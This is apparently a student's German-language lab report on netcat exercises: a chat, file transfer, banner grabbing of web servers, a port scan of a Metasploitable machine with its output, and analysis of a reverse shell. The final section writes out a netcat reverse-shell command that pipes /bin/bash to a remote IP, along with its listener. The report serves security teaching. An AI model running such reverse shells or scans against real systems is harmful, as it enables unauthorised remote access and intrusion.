# 4AHITS ITSE portmapper/nfs vulnerability   

---

Name: Xu Matthias Chen   
Klasse: 4AHITS   
Fach: ITSE   
Datum: 20.04.2026        

---

## Übung (netcat chat)
Verwende netcat um einen bidirektionalen Chat zwischen 2 unterschiedlichen Rechnern aufzubauen.


Als erstes muss einer den Client und einer den Server spielen. Der Server muss mit 'nc -l -p 1234' den Port 1234 öffnen und der Server hört dann (listening). Der Client kann mit der IP und der Portnummer sich mit dem Server verbinden. 

Client:
```
nc 192.168.1.52 1234
```

Server:
```
nc -l -p 1234
```   




## Übung (netcat data send)
Übertrage, per netcat, den Inhalt einer lokalen Text-Datei an einen anderen Schüler (auf einem anderen Rechner). Soll am Zielsystem in einer Textdatei gespeichert werden.

Client:
```
nc 192.168.1.52 5555 < '/home/kali/localtext.txt'
```

hier schickt man die Datei "localtext.txt" dem Server.

Wenn der Server 

```
nc -l -p 5555 > nachricht.txt
```

dann schreibt er dann Inhalt des Textes in nachricht.txt und hat die Nachricht bekommen, wenn der Sender eine Datei sendet. 



Übung (netcat banner grabbing)
Verbinde dich mit netcat mit einem Webserver (Metasploitable und http://example.com) auf dem Standard-HTTP-Port 80.

Nachdem die Verbindung hergestellt ist, gibst du manuell die HTTP-Anfrage ein und beendest sie mit zweimaligem Enter.
```
HEAD / HTTP/1.0
[Leere Zeile]
[Leere Zeile]
```
Falls statt vom Server die Antwort von der Fortinet Firewall kommt, versuche durch einen ungültigen Request eine Response des Servers zu provozieren.
```
HEADxyz
```
- Analysiere die Antwort des Servers, insbesondere die Zeile, die mit Server: beginnt.
- Verbinde dich mit 10 unterschiedlichen Web-Seiten. Welche Server werden verwendet? Informiere dich kurz über diese.

- Welchen Web-Server verwendet die HTL Braunau?

Als erstes mit 
```
nc example.com 80
``` 
sich verbinden und dann 2 mal Enter drücken.




Hier verbindet man sicht mit dem Metasploitable Webserver:



Analyse:

"Apache/2.2.8 (Ubuntu) DAV/2" mann sieht hier die Version und die Art von Webserver, indemfall Apache und die Version 2.2.8 .
Beim Server von Example.com findet man nichts, weil es absichtlich verschleiert wurde, um nicht die Schwachstellen von dem Server preiszugeben.

10 Websiten:







Weitere waren stackoverflow.com, microsoft.com, nginx.org, franzmatejka.at, htl-braunau.at, google.com und orf.at.

Man findet den Server-Typ von  heraus -> Nginx, aber nicht die Verion, weil dies für z.B einen Angreifer wertvolle Information ist und man könnte dann schauen ob es für die Version des Servers dann eine Schwachstelle gibt.


## Übung (netcat banner grabbing II)
Erweitere das Kommando aus der vorhergehenden Übung so, dass die HTTP-Anfrage (Request) nicht über stdin eingegeben werden muss sondern per pipe | an nc übergeben wird.

Hinweis:

Die leere Zeile ist im HTTP Protokoll als die Zeichenfolge CRLF definiert.

CR (Carriage Return): Steuerzeichen mit ASCII-Wert dezimal 13 oder hexadezimal 0x0D – \r in Programmen.
LF (Line Feed): Steuerzeichen mit ASCII-Wert dezimal 10 oder hexadezimal 0x0A – \n in Programmen.
Verwende das Tool printf (statt echo) um \r\n verwenden zu können.

Der Befehl:
```
printf "HEAD / HTTP/1.0\r\nHost: example.com\r\n\r\n" | nc example.com 80
```

Wie es funktioniert   
printf erzeugt den HTTP-Request mit den richtigen Steuerzeichen:
```
printf "HEAD / HTTP/1.0\r\n      ← Anfrage-Zeile + CRLF
        Host: example.com\r\n    ← Host-Header + CRLF
        \r\n"                    ← Leerzeile (CRLF) = Ende des Requests
```
Der | (Pipe) leitet die Ausgabe von printf direkt als Eingabe an nc weiter – kein manuelles Tippen nötig.


## Übung (netcat port scanning)
Mit netcat kann man feststellen welche Ports auf einem Zielsystem an einen Dienst gebunden sind, diese Ports werden als offen bezeichnet.

Verwende den Scanning-Modus (-z) mit einer Zeitbegrenzung (-w 1) und gib den Portbereich von 1 bis 1000 an um festzusellen welche Ports in Metasploitable geöffnet sind. Recherchiere welche Dienste sich hinter diesen Ports verbergen.
Verbinde dich mit nc zu offenen Ports (ssh, telnet, ftp). Was kannst du herausfinden (Banner Grabbing)?

v ... sagt ob offen oder zu.

```
└─$ nc -zv -w 1 192.168.8.130  1-1000         
192.168.8.130: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.8.130] 514 (shell) open
(UNKNOWN) [192.168.8.130] 513 (login) open
(UNKNOWN) [192.168.8.130] 512 (exec) open
(UNKNOWN) [192.168.8.130] 445 (microsoft-ds) open
(UNKNOWN) [192.168.8.130] 139 (netbios-ssn) open
(UNKNOWN) [192.168.8.130] 111 (sunrpc) open
(UNKNOWN) [192.168.8.130] 80 (http) open
(UNKNOWN) [192.168.8.130] 53 (domain) open
(UNKNOWN) [192.168.8.130] 25 (smtp) open
(UNKNOWN) [192.168.8.130] 23 (telnet) open
(UNKNOWN) [192.168.8.130] 22 (ssh) open
(UNKNOWN) [192.168.8.130] 21 (ftp) open
```

Dienste:
514 shell
80 http
21 ftp 
22 shh

Offene Ports:



Man findet hier die Version.



Man findet hier auch die Version und das Betriebssystem.



Man sieht hier eigentlich das Banner, aber es wird nicht richtig angezeigt.

## Übung netcat (reverse shell)
Analysiere die Kommandozeile:
```
nc -e /bin/bash 10.20.30.40 4242
```
Siehe Reverse Shell Cheat Sheet - ncat.

Starte das passende Gegenstück (Server/Listener) auf einem anderen System.

Recherchiere/Dokumentiere:

Warum nennt man das eine Reverse Shell?
Was ist der Vorteil? In welchem Fall wird, von wem, eine Reverse Shell verwendet?

nc ... Netcat

-e /bin/bash ... Nach Verbindung: führe /bin/bash aus und leite dessen Ein-/Ausgabe durch die Verbindung. 

10.20.30.40 ... ist die IP
4242 ... ist der Port


In meinem Fall:

IP: 192.168.8.130




Gegenstück – der Listener:
```
nc -lvp 4242
```





